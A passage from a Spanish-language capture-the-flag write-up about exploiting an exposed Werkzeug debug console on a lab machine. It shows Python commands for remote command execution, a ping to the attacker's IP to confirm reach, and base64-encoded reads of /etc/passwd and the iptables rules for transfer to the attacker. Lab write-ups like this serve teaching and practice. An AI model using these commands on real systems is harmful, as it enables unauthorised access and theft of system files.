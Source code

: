Encontramos el recurse `/console`

### Consola Interactiva {-}

Estamos en frente de una consola interactiva donde se puede ejecutar code en python

```python
import os

os.system('whoami')
#Output
0
```

En este caso la respuesta al lado del servidor es `0`. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion
`os.popen(<command>).read()` para ver el output normal.

```python
os.popen('whoami').read()
#Output
'Werkzeug'
```

El comando funcionna. Ahora intentamos **pingear** nuestra maquina de atacante.

1. en la maquina de atacante

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. En la consola interactiva python

    ```python
    os.system('ping -c 1 10.10.14.20')
    ```

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el comando
`os.popen('cat /etc/passwd').read()` nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recomienda encriptar la respuesta en base 64 para despues decodificarlo en la maquina de atacante con el comando
`echo "<cadena codificada en base64>" | base64 -d; echo`

```python
os.popen('base64 -w 0 /etc/passwd').read()
os.popen('base64 -w 0 /etc/iptables/rules.v4').read()
```

El iptables nos muestra con la linea `-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP` que la maquina victima nos
va a rechazar todas las comunicaciones por **TCP**. Es por esta razon que no hemos creado directamente una reverse shell.
 ## Explotacion de vulnerabilidad & Ganando acceso {-}
